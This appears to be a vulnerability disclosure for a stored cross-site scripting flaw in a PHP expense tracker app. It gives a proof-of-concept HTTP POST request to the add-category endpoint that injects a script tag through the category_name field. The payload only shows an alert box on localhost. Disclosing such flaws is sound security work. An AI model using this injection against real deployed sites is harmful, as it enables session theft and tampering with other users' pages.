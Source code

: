 # Simple expense tracker app

# Exploit Title:
XSS  Stored  (Expense Tracker App Using PHP with Source Code)
# Date:
23/09/2023
# Exploit Author:

Xcode0x (Mohamed Almarri)

Twitter: @xcode0x

# Vendor Homepage:
[https://www.sourcecodester.com/users/remyandrade]()
# Software Link:
https://www.sourcecodester.com/php/16794/simple-expense-tracker-app-using-php-source-code.html
# Version:
v1
# Tested on:
debian

----
# XSS Stored :

Expense Tracker App v1 is vulnerable to Cross Site Scripting (XSS) via add category .

# POC [debian]:

1- add  category 

2- in category_name put your payload 

POST /simple-expense-tracker-app/endpoint/add_category.php HTTP/1.1

Host:  localhost

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://localhost/simple-expense-tracker-app/

Content-Type: application/x-www-form-urlencoded

Content-Length: 84

Origin: http://localhost

Connection: close

Upgrade-Insecure-Requests: 1



tbl_expense_category_id=&category_name=<script>alert('By:Xcode0x')</script>&category_budget=1

![Drag Racing](https://github.com/xcodeOn1/XSS-Stored-Expense-Tracker-App/blob/main/xss_stored.png)


 # Tested  

 Linux - debian
